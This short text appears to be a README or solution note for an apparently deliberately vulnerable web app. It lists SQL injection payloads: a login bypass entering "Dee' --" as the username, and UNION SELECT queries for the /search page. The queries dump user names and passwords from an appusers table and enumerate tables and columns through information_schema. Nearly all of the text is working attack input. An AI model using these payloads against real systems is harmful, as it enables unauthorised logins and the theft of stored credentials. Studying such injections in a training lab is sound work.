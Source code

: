 To bypass the login and login as 'Dee' either:
go to /login and enter:
```
username: Dee' --
```

go to the /search page and search for:
```sql
' AND 1=2 UNION SELECT name,pass,NULL,NULL,NULL FROM appusers --
```

' AND 1=2 UNION SELECT table_name, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = 'public' --

' AND 1=2 UNION SELECT table_name, column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_schema='public' --